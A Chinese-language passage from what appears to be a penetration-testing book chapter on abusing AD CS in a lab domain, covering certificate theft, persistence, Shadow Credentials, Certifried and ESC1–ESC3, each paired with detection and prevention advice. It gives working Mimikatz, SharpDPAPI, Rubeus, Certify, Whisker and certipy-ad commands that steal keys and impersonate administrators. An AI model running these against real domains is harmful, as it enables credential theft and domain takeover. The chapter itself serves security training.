




# 第八章：滥用 Active Directory 证书服务

在接下来的两章中，我们将介绍几乎在每个环境中都可以找到但在 Active Directory 部署期间并未默认安装的服务。我们将从**Active Directory 证书服务**（**AD CS**）开始。这项服务是 Microsoft 对与 Active Directory 集成的**公钥基础设施**（**PKI**）的实现。它允许我们在整个 Active Directory 林中利用公钥密码学，提供证书、数字签名、代码签名和其他功能。然而，与伟大的能力伴随着伟大的责任。由于其复杂性，AD CS 在硬化和监控方面经常被忽视。2021 年 6 月，*SpecterOps* 发布了一篇全面的研究论文，在其中描述了攻击 AD CS 的已知和新方法[1]。

我们将从解释必要的 PKI 理论开始我们的学习旅程。然后，我们将覆盖可能的证书窃取方式，并实现在用户和计算机域账户上的持久性。最后，我们将探讨允许对手妥协域环境的域权限提升和持久性技术。如往常一样，所有攻击都将跟随详细的检测和预防建议。

在本章中，我们将探讨以下主题：

+   PKI 理论

+   证书窃取

+   账户持久性

+   域权限提升

+   域持久性

# 技术要求

在本章中，您需要访问以下内容：

+   VMware Workstation 或 Oracle VirtualBox 至少需要 16 GB RAM、8 CPU 核心和至少 55 GB 总空间（如果您使用快照，则需要更多空间）

+   强烈推荐使用基于 Linux 的操作系统

+   从 GOADv2 项目中，我们将使用 DC03 和 SRV03

# PKI 理论

在本节中，我们将涵盖本章后续使用的必要理论和术语。首先，什么是**公钥密码学**？它是一种使用一对相关密钥的非对称加密系统。其次，它是如何工作的？简单来说，用户生成两个密钥（私钥和公钥），并使用私钥进行解密/签名消息。第二个密钥对所有人都可用（因此称为公共密钥），用于加密/验证消息的签名。这两个密钥在数学上是相关的，但不能从公钥恢复私钥。牢记刚才描述的概念，我们现在可以更详细地讨论 PKI。

PKI 的最重要组件包括**认证机构**（**CA**）、**注册机构**（**RA**）、中央目录、证书管理系统和证书政策。CA 是 PKI 的核心。CA 使用其自己的私钥签名与给定用户绑定的公钥。CA 可以是根 CA 和中间 CA。RA 负责实体的身份验证。中央目录存储密钥，证书管理系统控制证书的访问和交付。证书政策定义 PKI 的实体、角色和职责。

现在，让我们讨论一下 Active Directory[2]中的可用 AD CS 角色。微软创建了六种角色：

+   `CA` – 签发证书并管理其有效性

+   `CA Web Enrollment` – 允许用户通过浏览器连接到 CA 并请求证书以及**证书撤销****列表**（**CRLs**）

+   `Online Responder` – 评估证书的状态信息并将其发送回请求者

+   `Network Device Enrollment Service`（**NDES**）– 允许为网络设备获取证书

+   `Certificate Enrollment Web Service`（**CES**）– 允许通过 HTTPS 协议进行注册

+   `Certificate Enrollment Policy Web Service`（**CEP**）– 允许用户和计算机获取证书注册策略信息

接下来，我们将更详细地讨论证书、模板及其相关流程。证书是一个由 CA 数字签名的文档，格式为 X.509。每个证书都有其特定的用途，如客户端身份验证、代码签名、智能卡登录等。这些用途被描述为**对象标识符**（**OIDs**），并称为扩展密钥使用。证书模板定义其用途、获取证书所需的用户信息以及适用的访问控制。将证书模板视为一个原型，在签发过程中将填写用户信息。

现在，让我们讨论用户如何请求证书。这个过程称为**注册**。首先，客户端找到企业 CA，然后生成一对私钥和公钥，将公钥和其他相关信息放入**证书签名请求**（**CSR**）中，用自己的私钥签名该 CSR，并将其发送到企业 CA。其次，CA 会执行一些检查，如用户是否有权限请求特定证书模板，以及用户是否允许进行注册。如果所有检查都成功通过，CA 将用提供的用户信息填写模板，用自己的私钥签名证书，并将其返回给用户。

在 Active Directory 中支持证书认证的两个协议是 Kerberos 和**安全通道**（**Schannel**）。Kerberos 利用**初始认证的公钥加密**（**PKINIT**）。用户将使用其证书的私钥签名认证挑战，并将其发送给域控制器。如果验证过程成功，将颁发一个 TGT。另一个协议是 Schannel。在认证过程中，域控制器会请求客户端提供证书，并通过使用 Kerberos S4U2self 扩展将凭据映射到用户帐户。如果失败，下一步是基于**主题备用名称**（**SAN**）扩展、主题和颁发者字段将证书映射到用户帐户。Schannel 与 LDAPS 配合良好。

证书传递是认证过程中的预认证阶段，在此阶段，证书用于获取 TGT。在 PKINIT 的情况下，我们可以使用认证证书请求 TGT。如果 PKINIT 不受支持，我们可以通过 LDAP/S 使用名为 PassTheCert[3] 的工具进行认证。该工具的作者提供了很好的研究，后面会给出链接[4]。

在我们开始之前，我们需要为 AD CS 启用审计，以便能够检测到自己的恶意活动。PHDays 会议上提出了最佳的检测指南之一[5]。在这次演讲中，你还可以找到现成的搜索查询。为了通过组策略启用日志记录，我们需要在**默认域策略**中的以下路径下勾选**成功**和**失败**：**计算机配置** | **策略** | **Windows 设置** | **安全设置** | **高级审计策略配置** | **审计策略** | **对象访问** | **审计` `证书服务**。

接下来，在 CA 属性中，我们将为所有事件启用**审计**，如下所示的截图所示：


图 8.1 – 为 AD CS 事件启用审计

现在我们已经了解了 PKI 的关键概念，让我们深入探讨实际部分。当然，理论部分还有很多内容需要覆盖，但我们会在必要时逐步引入，以帮助理解攻击。如果你希望先进行深入学习，欢迎查阅介绍中提到的 SpecterOps 论文。我们将从证书盗用技术开始我们的学习之旅。

# 证书盗用

本节将重点讨论终端上的证书盗取。如果环境中部署了 AD CS，那么证书很可能用于域身份验证。Windows 使用的是`.pfx`格式的证书，该格式包含证书本身及其对应的私钥。然而，私钥也可以单独存储，例如存储在专用硬件上，如**受信平台模块**（**TPM**）、**硬件安全模块**（**HSM**）或智能卡。大多数公司并未引入硬件元素，私钥通常存储在操作系统中。Windows 借助**数据保护应用程序编程接口**（**DPAPI**）来保护密钥。为了演示，我们将为`khal.drogo`用户颁发一个不可导出的私钥证书。我们可以通过**Microsoft 管理控制台**（**MMC**）中的证书管理单元来完成这一操作。现在，我们准备开始实践。

## THEFT1 – 使用 CryptoAPI 导出证书

导出证书有两种方式。第一种是通过`certmgr.msc`中的图形界面，或者借助 PowerShell cmdlet，或者使用 CertStealer 工具[6]。这些工具使用 Windows CryptoAPI，并且只有在私钥可导出时才允许导出。如果私钥不可导出，我们可以使用 Mimikatz。其思路是对`CryptoAPI`（**CAPI**）或`Cryptography API: Next Generation`（**CNG**）进行补丁修复，具体取决于密钥提供者，以允许私钥导出。需要特别说明的是，CAPI 补丁修复是在当前进程中进行的。当使用 Microsoft 软件密钥存储提供程序时，需要进行 CNG 补丁修复，并且该修复会补丁**密钥隔离**（**KeyIso**）服务，这个服务在`lsass.exe`进程中运行，这意味着你需要在机器上拥有“调试”权限。以下命令将显示`khal.drogo`拥有一个不可导出的私钥的证书：

```
mimikatz.exe "crypto::certificates /export" "crypto::capi" "crypto::certificates /export"  "exit"
```

第一次导出尝试由于**私钥导出**字段的错误而失败，但随后补丁导出成功。以下是命令执行结果：


图 8.2 – khal.drogo 的证书导出成功

检测此攻击的唯一方法是当需要 CNG 补丁修复并且对`lsass.exe`的访问正在被监控时。

## THEFT2 – 通过 DPAPI 盗取用户证书

DPAPI 是 Windows 组件，允许应用程序存储敏感数据。此数据由主密钥保护，主密钥通过应用 PBKDF2 函数从用户的密码哈希、SID 和盐值推导而来。证书存储在 `HKEY_CURRENT_USER\SOFTWARE\Microsoft\SystemCertificates` 注册表键或 `%APPDATA%\Microsoft\systemcertificates\my\certificates` 文件夹中。关联的私钥存储在 `%APPDATA%\Microsoft\Crypto\RSA\User SID`（对于 CAPI 密钥）和 `%APPDATA%\Microsoft\Crypto\keys`（对于 CNG 密钥）中。小提醒：即使启用隐藏文件，也无法在文件夹中看到密钥。要查看这些文件夹的内容，请使用 `dir** /**a:s` 命令行。要解密证书的私钥，我们需要相应的主密钥。有几种方法可以获取主密钥，但其中三种方法需要提升的权限：

+   从域控制器备份密钥 (**lsadump::backupkeys**)

+   DPAPI 缓存的主密钥 (**sekurlsa::dpapi**)

+   `DPAPI_SYSTEM` 密钥 (**lsadump::secrets**)

+   通过提供用户的哈希值或密码

以下 Mimikatz 命令将允许您以 `.der` 格式转储证书，找出主密钥的 `guidMasterKey` 值，解密主密钥，最后解密证书的私钥：

```
crypto::system /file:C:\users\khal.drogo\appdata\roaming\microsoft\systemcertificates\my\certificates\C7889A4CBF0B4F10CA29347D81327DC6CED9ED95 /export
dpapi::capi /in:C:\Users\khal.drogo\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-2801885930-3847104905-347266793-1112\d2d039eb9fe8cf2dd19f701b6f890220_9d1ba1ca-81ea-41ad-bc71-414af8de5013
dpapi::masterkey /in:C:\Users\khal.drogo\AppData\Roaming\Microsoft\Protect\S-1-5-21-2801885930-3847104905-347266793-1112\6e1524df-7d72-4b90-a95f-72341d79449f /rpc
dpapi::capi /in:C:\Users\khal.drogo\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-2801885930-3847104905-347266793-1112\d2d039eb9fe8cf2dd19f701b6f890220_9d1ba1ca-81ea-41ad-bc71-414af8de5013 /masterkey:5401985c1aa5a8ae1f25a9f08beaa53f4b6ad98e
```

在 Linux 机器上借助 `openssl`，我们可以构建有效的 `.****pfx` 文件：

```
openssl x509 -inform DER -outform PEM -in C7889A4CBF0B4F10CA29347D81327DC6CED9ED95.der -out public.pem
openssl rsa -inform PVK -outform PEM -in dpapi_exchange_capi_0_te-User-d700e753-1b10-45c7-aa92-b8a8ffe7493d.keyx.rsa.pvk -out private.pem
openssl pkcs12 -in public.pem -inkey private.pem -password pass:12345 -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out drogo_cert.pfx
```

前述命令的结果如下图所示：


图 8.3 – 成功为 khal.drogo 构建 .pfx 证书

一个重要的注意事项是，`/rpc` 密钥在 `dpapi::masterkey` 命令中将启动与域控制器的 `IPC`$ 的连接，并创建一个名为 `pipe` 的 `protected_storage`。我们可以在下图中看到流量示例：



图 8.4 – 机器与域控制器之间的流量

另一种检测证书盗窃的方法是通过审计 SACL。通过使用对象读取 SACL，防御者可以检测对 DPAPI 主密钥和私钥的访问。Windows 事件 ID 4663 将被记录到服务器事件日志中，包括进程名称。

## THEFT3 – 通过 DPAPI 盗取机器证书

为了窃取机器证书，攻击者需要获取提升的权限。机器主密钥位于 `C:\Windows\System32\Microsoft\Protect\S-1-5-18\User` 和 `C:\Windows\System32\Microsoft\Protect\S-1-5-18` 文件夹中。机器证书的私钥位于 `C:\ProgramData\Microsoft\Crypto\RSA\MachineKeys` 文件夹中（适用于 CAPI），以及 `C:\ProgramData\Microsoft\Crypto\Keys` 文件夹中（适用于 CNG）。要解密这些私钥，必须使用 `DPAPI_SYSTEM` 密钥。为了执行这个攻击，我们将使用 `SharpDPAPI`[*7*] 工具。我们将以提升的权限运行此工具；它会自动提升到 `SYSTEM` 权限，提取 `DPAPI_SYSTEM` 密钥，并使用它来查找和解密主密钥。最后，它将解密所有机器证书的私钥：

```
SharpDPAPI.exe certificates /machine
```

提升权限和获取 `DPAPI_SYSTEM` 密钥的过程可以在这里看到：


图 8.5 – 使用 SharpDPAPI 获取 DPAPI_SYSTEM

SharpDPAPI 执行的结果如下所示：


图 8.6 – 解密的机器证书私钥之一

此攻击使用 `DPAPI_SYSTEM` 密钥，因此不会从机器发送任何流量。唯一可能的检测方式是通过 SACL 阅读 DPAPI 加密的密钥进行审计。

## THEFT4 – 获取证书文件

另一个有效的攻击方法是简单地搜索证书（`.crt**/**.cer**/`.pfx**）、密钥（**.key**）、CSR（**.csr**）和 Java 密钥库（`.jks**/**.keystore**/`.keys**）。对于密码保护的证书，可以借助 `pfx2john` 工具提取哈希值，然后进行破解。为了理解证书的用途，我们可以运行以下命令：

```
certutil -dump -v drogo_cert.pfx
```

以下是执行上述命令对 *THEFT2* 攻击中提取的用户证书进行处理后的结果：


图 8.7 – 获取的 khal.drogo 证书的 EKU

重要说明：如果在转储时出现 **无效密码** 错误，您需要在最后一步（使用 `openssl` 在 Linux 机器上构建 `.pfx` 证书时）添加 `-legacy` 选项。

建议的检测方法是引入“蜜罐证书”，以便防御方能够检测和跟踪恶意活动。

## THEFT5 – 通过 PKINIT 窃取 NTLM 凭证（nPAC-the-hash）

PKINIT 是一种预认证验证机制。简而言之，当使用 PKINIT 获取 TGT 时，我们可以从 TGS-REQ 中的 `PAC_CREDENTIAL_INFO` 结构中提取 LM 和 NT 哈希值。此功能使我们能够在远程服务器不支持 Kerberos 而仍依赖 PKINIT 进行预认证时，切换回 NTLM 认证。

攻击步骤如下：

1.  使用 PKINIT 进行预身份验证并获得包含会话密钥的 TGT。TGT 中的 PAC 将包含 `PAC_CREDENTIAL_INFO` 结构，其中包含 NT 和 LM 哈希，但由于它是用 `krbtgt` 密钥加密的，因此无法解密。

1.  接下来，通过结合 S4U2self 和 U2U 请求服务票证。

1.  获取的服务票证将包含 PAC 和 `PAC_CREDENTIAL_INFO` 结构，该结构是用会话密钥加密的，可以解密。

需要提到的重要一点是，我们需要访问证书及其密码。这听起来有点复杂，但所有这些都可以通过 Rubeus 中的单个命令完成：

```
Rubeus.exe asktgt /getcredentials /user:khal.drogo /certificate:drogo_cert.pfx /password:12345 /domain:essos.local /show
```

前述命令的结果如下截图所示：


图 8.8 – khal.drogo 用户的 UnPAC 哈希

可以根据 U2U 和 S4U2self 请求期间票证上设置的标志来检测此技术。如果在 TGS-REQ 中设置了 `Forwardable`、`Renewable`、`Renewable_ok`、`Enc_tkt_in_skey` 和 `Canonicalize` 选项，则很可能使用了 Certipy、Kekeo 或 Rubeus[8]。另一种方法是通过跟踪 Windows 事件 ID `4768` 来查找证书信息值。

在下一节中，我们将讨论帐户持久性技术。

# 帐户持久性

在攻击者获得初步控制后，下一步通常是建立持久性。在本节中，我们将仅讨论依赖于证书使用的持久性技术。

## PERSIST1 – 通过证书进行的活动用户凭证盗窃

用户可以请求 CA 环境中任何他们被允许注册的模板的证书。攻击者可能会集中在允许客户端身份验证的模板上。一个重要的注意事项是，模板不应要求经理批准或“授权签名”要求。这个要求定义了需要为证书请求应用多少个数字签名以获得批准。有一个默认模板叫做 `User`，但它可能已被禁用。为了找到其他可用的模板，我们可以使用一个叫做 `Certify` 的工具[9]。以下命令将发送 LDAP 查询并显示可用的模板：

```
Certify.exe find /clientauth
```

执行命令的结果如下：


图 8.9 – Certify 找到了客户端身份验证证书模板

在此示例中，不需要授权签名，域用户可以注册证书。然后，攻击者可以在 GUI 中、使用 `certreq` 工具或 Certify 请求证书：

```
Certify.exe request /ca:braavos.essos.local\essos-ca /template:User
```

证书已成功发放：


图 8.10 – 用户证书已发放

下一步是从输出文件中复制私钥和证书，并将其保存为 `.pem` 扩展名。然后，使用 `openssl` 将其转换为 `.pfx` 格式，如下所示命令：

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -legacy -out viserys_cert.pfx
```

现在我们已经获得了一个证书，可以在证书有效期内用来请求 TGT。而且，用户密码的更改不会影响证书。如前所述，在 *THEFT5* 中，攻击者可以随时通过 nPAC-the-hash 获取用户的 NT 哈希值。这是一种隐蔽且长期有效的凭证访问技术。

要检测这种类型的持久性，必须借助 `certutil.exe` 查询 CA 数据库。在 Windows 事件日志中未显示很多有价值的信息——尤其是操作系统版本、用户/进程信息、证书中的主题等。这些参数对于检测恶意活动非常有帮助。

## PERSIST2 – 通过证书实现机器持久性

发放机器证书需要提升的权限。Certify 会自动提升权限至`SYSTEM`，并使用以下命令获取机器证书：

```
Certify.exe request /ca:braavos.essos.local\essos-ca /template:Machine /machine
```

结果如下图所示：


图 8.11 – 已发放机器证书

后续步骤相当直接。攻击者可以通过机器上的 S4U2self 获取任何服务的服务票证，并以任何用户身份访问该服务。持久性将在证书过期或系统名称更改之前持续有效。这种方式非常隐蔽，因为主机没有发生任何更改。

检测方法与 *PERSIST1* 相同。

## PERSIST3 – 通过证书续期实现账户持久性

攻击者可以在证书有效期内使用证书，并在续期期间或更早时续订证书。此方法难以检测，因为它使用的是内置功能，几乎不留下任何痕迹。

## Shadow 凭证

这种技术是一种账户接管；然而，它仍然可以视为账户持久性。原始研究由 *Elad Shamir* [10] 发布。如果用户是 `Key Admins` 或 `Enterprise Key Admins` 的成员，或者对其他用户或计算机账户拥有 `GenericWrite` 或 `GenericAll` 权限，则可以将 `Key Credentials` 添加到 `msDS-KeyCredentialLink` 属性中。该属性存储原始公钥，之后这些公钥将用于通过 PKINIT 执行 Kerberos 身份验证，代表该账户进行身份验证。攻击可以通过 `Whisker` [11] 或 `Certify` 来执行。第一步，攻击者会识别我们已经拥有必要权限的用户。


图 8.12 – 用户 khal.drogo 对 viserys.targaryen 拥有 GenericAll 权限

现在，以下命令将向 `msDS-KeyCredentialLink` 属性中添加信息：

```
Whisker.exe add /target:viserys.targaryen /domain:essos.local
```

在后台，Whisker 会通过 LDAP 和 Kerberos 与域控制器进行交互。攻击步骤会显示在工具输出中，并附有执行 nPAC-the-hash 攻击的 Rubeus 命令。


图 8.13 – Shadow 凭证攻击

为了验证属性是否已成功更新，攻击者可以运行`list`命令。一个属性包含用户 ID、认证数据、公共密钥、最后登录时间和设备 ID，但输出结果将只显示最后两个：


图 8.14 – 属性值检查

可以通过监控事件 ID `4768` 来进行检测，其中会显示证书信息。另一种检测方法是为用户的 Active Directory 对象配置 SACL，并监控事件 ID `5136`。还可以检查另一个事件 ID `4662`。一些重要信息包括 GUID（**5b47d60f-6090-40b2-9f37-2a4de88f3063**）和**写属性**访问[8]。预防建议通常适用于 ACL 滥用场景——查找配置错误的帐户并修复它们。此外，建议明确拒绝`Everyone`对该属性的写入权限。

下一部分将介绍域权限提升攻击。

# 域权限提升

在本部分中，我们将探讨通过利用各种安全问题（如模板和扩展配置错误（ESC1、2、3、9 和 10）、不当访问控制（ESC4、5 和 7）、CA 配置错误（ESC6）和中继攻击（ESC8 和 11））来提升权限的实际技术。我选择了这样的攻击分组，参考了[12]。但首先，我们将从由*Oliver Lyak*发现的一个关键漏洞开始，称为`Certifried`，它在补丁后演变为 ESC9 和 ESC10。

## Certifried（CVE-2022-26923）

该漏洞与`samAccountName`欺骗（CVE-2021-42278）有许多相似之处。作者的原创研究已在此发布[13]。

在 AD CS 中，默认情况下有两个认证证书：用户和机器。每个用户帐户都有一个**用户主体名称**（**UPN**），该名称必须是唯一的。UPN 嵌入到证书中，并在认证过程中由 KDC 使用。计算机帐户没有 UPN，`dNSHostName` 作为替代使用。计算机帐户的创建者有权写入此属性，称为**验证写入 DNS 主机名**。该属性不要求唯一性，但在`dNSHostName`更改后，SPN 也将更改。SPN 在域中有唯一性要求，但计算机帐户创建者可以更改 SPN（**验证写入服务主体名称**）。攻击的思路是创建一个计算机帐户，清除包含完全限定域名（FQDN）的 SPN，将`dNSHostName`更改为与目标匹配（例如，域控制器），然后请求证书。需要特别说明的是，`dNSHostName`属性仅在请求证书时使用，而不用于证书映射。

为了在本节中进行攻击，我们将使用名为 Certipy[14] 的工具；不过，也有一个名为`certipy-ad`的分支，可以安装在 Kali 上。两种工具的语法是相同的。两种工具都支持所有特权提升场景、影子凭据攻击和金色证书伪造。

首先，我们为攻击做必要的准备。我们将创建一个计算机帐户，清除 SPN，并将 `dNSHostName` 属性更改为与域控制器匹配。以下 PowerShell 命令和 `StandIn` 工具将完成这项工作：

```
StandIn.exe –computer legitpc –make
Set-ADComputer legitpc -ServicePrincipalName @{}
Set-ADComputer legitpc -DnsHostName meereen.essos.local
Get-ADComputer legitpc -properties dnshostname,serviceprincipalnames
```

前面命令执行的结果如下截图所示：


图 8.15 – Certifried 利用准备

现在，使用 `certipy-ad`，我们请求证书并以域控制器计算机帐户身份进行身份验证：

```
certipy-ad req -u 'legitpc$@essos.local' -p 'xfdb8UeqqgT9Aje' -target 192.168.56.23 -ca ESSOS-CA -template Machine -dc-ip 192.168.56.12
certipy-ad auth -pfx meereen.pfx -dc-ip 192.168.56.12
```

命令执行的结果如下截图所示：


图 8.16 – 获取域控制器的哈希值和 TGT

在证书检索后，建议将`dNSHostName`更改回原始值[15]。现在，我们已经获得了域控制器计算机帐户的 NT 哈希值，可以用来进行身份验证或伪造 Silver Ticket。为了防止被利用，请安装 Microsoft 提供的补丁。

在下一节中，您将学习模板和扩展配置错误如何导致特权提升。

## 模板和扩展的配置错误

以下小节详细说明了一些常见的证书模板和扩展配置错误的方式。

### ESC1 – 配置错误的证书模板

一组特定的设置，包括默认设置，使模板容易受到攻击。此特权提升场景需要以下配置设置：

+   标准用户拥有由企业 CA 授予的注册权限

+   禁用经理审批（`mspki-enrollment-flag` 为 **0x00000000**）

+   无需授权签名（`msPKI-RA-Signature` 为 **0x00000000**）

+   证书模板定义了任何客户端身份验证 EKUs

+   证书模板允许请求者在 CSR 中指定`subjectAltName`（`msPKI-Certificate-Name-Flag` 为 **0x00000001**）

最后一项有效地允许用户以任何身份请求证书，包括域管理员。此行为由证书模板 AD 对象中的 `mspki-certificate-name-flag` 属性中的 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 标志定义。为了找到这种配置错误的模板，攻击者可以使用 Certify/Certipy 或纯 LDAP 查询。LDAP 查询看起来很复杂，但其实它只是前述配置选项的拼接：

```
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollmentenrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2)(pkiextendedkeyusage=1.3.6.1.5.2.3.4)(pkiextendedkeyusage=2.5.29.37.0))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=essos,DC=local'
```

查询的结果如下：


图 8.17 – LDAP 查询查找 ESC1 漏洞模板

现在，我们将验证 LDAP 查询的结果，为内建域管理员签发证书并使用该证书进行身份验证：

```
certipy-ad find -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -vulnerable -stdout
certipy-ad req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -target 192.168.56.23 -ca 'ESSOS-CA' -template ESC1 -upn 'administrator@essos.local'
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

结果如下截图所示：


图 8.18 – ESC1 的成功利用

为防止特权提升，需要对模板进行加固。最佳做法是禁用`Supply in Request`设置，并强制执行 CA 证书经理的批准。接下来，可以收紧用户注册权限，并审查证书中的 EKU。最后，在域控制器上，可以在`HKLM\SYSTEM\CurrentControlSet\Services\Kdc`注册表项中强制执行严格的用户映射，并将 DWORD `UseSubjectAltName`值设置为`0`。

使用 Windows 事件日志无法直接可靠地检测 ESC1，因此更好的做法是考虑采取预防措施。

### ESC2 – 配置错误的证书模板

这种技术与 ESC1 类似，但有些微小的偏差。`Any Purpose` EKU 允许攻击者以用户身份本身请求认证证书，而不是代表其他用户。漏洞存在的条件如下：

+   标准用户有企业 CA 授予的注册权限

+   管理员批准已禁用（`mspki-enrollment-flag` 为 **0x00000000**）

+   无需授权签名（`msPKI-RA-Signature` 为 **0x00000000**）

+   证书模板定义了`Any Purpose` EKU 或没有 EKU

查找易受攻击模板的 LDAP 查询如下：

```
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=essos,DC=local'
```

查询结果如下：


图 8.19 – 查找 ESC2 易受攻击模板的 LDAP 查询

以下命令将允许你为`khal.drogo`请求证书并用于身份验证：

```
certipy-ad req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -target 192.168.56.23 -ca 'ESSOS-CA' -template ESC2
certipy-ad auth -pfx khal.drogo.pfx -dc-ip 192.168.56.12
```

结果如下截图所示：


图 8.20 – ESC2 的成功利用

针对此问题的预防建议与 ESC1 相同。

### ESC3 – 配置错误的注册代理模板

这个特权提升向量利用了不同的 EKU – `Certificate Request Agent`（OID **1.3.6.1.4.1.311.20.2.1**）。该 EKU 允许你代表其他用户注册证书。主体在此类模板中注册，并使用签发的证书代替其他用户共同签署 CSR。下一步是注册一个允许代表用户发送共同签署 CSR 的模板，然后 CA 将为该用户签发证书。此攻击需要满足两个条件。第一个条件要求注册代理证书模板允许用户注册。为了成功进行攻击，以下配置参数必须存在：

+   标准用户有企业 CA 授予的注册权限

+   管理员批准已禁用（`mspki-enrollment-flag` 为 **0x00000000**）

+   无需授权签名（`msPKI-RA-Signature` 为 **0x00000000**）

+   证书模板定义了**证书请求` `代理** EKU

和之前一样，我们将利用 LDAP 查询查找一个符合第一个条件的模板：

```
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.1)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=essos,DC=local'
```

结果是，我们找到了匹配第一个条件的 ESC3-CRA 模板：


